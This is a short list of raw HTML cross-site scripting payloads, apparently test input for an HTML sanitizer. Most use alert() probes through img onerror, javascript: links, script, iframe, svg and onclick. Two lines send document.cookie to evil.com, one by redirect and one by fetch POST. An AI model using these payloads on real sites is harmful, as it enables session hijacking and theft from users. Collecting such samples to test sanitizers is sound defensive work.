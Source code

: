 <img src="" onerror="alert('XSS via img onerror')">

<img src="x" onerror="window.location='http://evil.com/steal?cookie='+document.cookie">

<a href="javascript:alert('XSS via javascript href')">click me</a>

<script>alert('direct script injection')</script>

<iframe src="javascript:alert('XSS via iframe')"></iframe>

<svg onload="alert('XSS via SVG onload')">

<div onclick="alert('XSS via div onclick')">click</div>

<img src="x" onload="fetch('http://evil.com/steal', {method:'POST', body:document.cookie})">